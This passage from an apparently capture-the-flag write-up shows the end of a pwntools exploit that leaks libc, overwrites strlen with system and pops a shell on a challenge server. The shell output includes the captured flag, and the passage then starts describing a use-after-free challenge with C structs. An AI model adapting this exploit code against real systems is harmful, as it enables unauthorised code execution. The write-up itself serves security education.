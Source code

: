 ```py
p.sendline(b'2 0 sh\x00 0') # end it off with a null byte, without the null byte will get sigsegv for some reason
libc_base = puts_leak - libc.sym.puts
libc.address = libc_base
print(hex(libc_base))

# overwrite strlen
overwrite(p, -15, libc.sym.system)
p.sendline(b'3 0')
p.interactive()
```

If you want to debug your exploit in GDB locally, need to run it as shown above. To find the correct ld, clone [this repo](https://github.com/matrix1001/welpwn/tree/master/PwnContext/libs) and try each ld one by one, likely quite a few of them will work.

Caveat: you won't have access to a lot of GDB's and GEF's functionality, but at least we can view registers and whatnot (which actually helped me solve the challenge, because I was passing in "sh" and not "sh\x00", so I could see that `RDI`'s contents were not as expected.

```
[*] Switching to interactive mode
-15. \xd1    1397318336

> $ ls
flag.txt
run
$ cat flag.txt
grey{0k_n0t_b4d_t1m3_t0_try_th3_h4rd3r_0n3s}
```

---

### easyuaf

> Other than OOB access, use-after-free is another very nice bug to exploit. Usually UAF can be used to do OOB access too.
> 
> daniellimws
> 
> nc challs.nusgreyhats.org 10525

[Files](./easyuaf/)

```c
typedef struct person
{
    char name[24];
    int id;
    int age;
    int personal_num;
    int business_num;
} person;

typedef struct org
{
    char name[24];
    int id;
    void (*display)(struct org*, struct person*);
} org;

void print_card()
{
    int org_id;
    while (1)
    {
```